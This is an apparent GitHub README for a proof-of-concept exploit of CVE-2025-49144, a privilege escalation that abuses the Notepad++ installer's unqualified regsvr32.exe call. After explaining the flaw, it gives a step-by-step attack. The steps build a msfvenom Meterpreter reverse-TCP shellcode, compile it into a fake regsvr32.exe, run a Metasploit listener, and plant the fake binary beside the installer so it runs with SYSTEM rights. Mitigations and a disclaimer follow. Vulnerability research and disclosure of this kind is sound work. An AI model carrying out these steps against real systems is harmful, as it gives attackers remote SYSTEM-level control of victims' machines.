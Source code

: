# CVE-2025-49144_PoC

![PoC Flow](misc/image.png)

📌 **CVE-2025-49144** is a high-severity local privilege escalation vulnerability found in the Notepad++ v8.8.1 and prior version installers. This vulnerability stems from uncontrolled executable search path behavior during installation, allowing a local attacker to gain SYSTEM-level privileges by placing malicious executables in the same directory as the installer.

---
⚙️ **How the CVE works – Step-by-Step**:

🧱 1. What went wrong in the installer?

The Notepad++ installer (before v8.8.2) calls regsvr32.exe to register some components — but it does this without giving the full path (like C:\Windows\System32\regsvr32.exe).

Instead, it just runs:
```bash
regsvr32.exe some_dll
```

📂 2. Windows search path behavior:
When an executable is launched without a full path, Windows uses a specific search order to find the file:

   1. The folder from which the application was launched (e.g., Downloads)

   2. The system folder (System32)

   3. The Windows folder

   4. Current working directory

   5. Paths in PATH environment variable

So, if a fake regsvr32.exe is placed in the same folder as the installer (e.g., Downloads), Windows will use it before the real one.

💣 3. Exploitation:

    - Attacker places a malicious regsvr32.exe in the same folder as the legitimate Notepad++ installer (e.g., the victim's Downloads folder).

    - Victim runs the installer (thinking it’s safe).

    - Installer calls regsvr32.exe, but ends up executing the malicious one from the same folder — with SYSTEM privileges (because installers typically request admin permissions).

    - The attacker's payload is now running as NT AUTHORITY\SYSTEM.


---

⚙️ **Steps to Reproduce**:
1. Get shell code:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=4444 -f c > shellcode.txt
```
2. Download the file "regsvr32_loader.c" and edit it.
3. Paste entire shellcode from shellcode.txt in the mentioned comment.
4. Compile to regsvr32.exe:
```bash
x86_64-w64-mingw32-gcc regsvr32_loader.c -o regsvr32.exe -mwindows
```
5. Deploy a meterpreter listner:
``` bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.9
set LPORT 4444
run
```
6. Download a vulnerable version of Notepad++ i.e. prior to 8.8.1 as 8.8.1 is now auto-updated.For PoC I have used [Notepad++ v8.6.8](https://github.com/notepad-plus-plus/notepad-plus-plus/releases/download/v8.6.8/npp.8.6.8.Installer.x64.exe)
7. Move the file "regsvr32.exe" into the windows system in the same folder of the notepad++ installer, probably in the Downloads folder.
8. Complete the Installation of the Notepad++ installer.

Note: This is a PoC thus tested with Windows defender and real time protection disabled.

---

✅ **Mitigation**

Users and administrators should:

   - Upgrade to Notepad++ v8.8.2 or later

   - Restrict software installation to trusted admins

   - Use AppLocker, WDAC, or Software Restriction Policies (SRP) to:
     - Block execution from user-writeable folders (e.g., Downloads)
     - Prevent execution of untrusted binaries like regsvr32.exe from unauthorized paths
     - Enforce code signing for executables


Security teams should regularly audit install paths, monitor write permissions, and observe behavior during installer execution to reduce attack surface.

---

## 🏷️ License
MIT License — Free for educational, research, and defensive purposes only.

---

## 🤝 Contributing
Pull Requests welcome — improve detection, add features, or suggest fixes.

---

## ⚠️ Disclaimer
This PoC is **for educational and research purposes only**. Use it at your own risk. The author is not responsible for any misuse or damage caused."

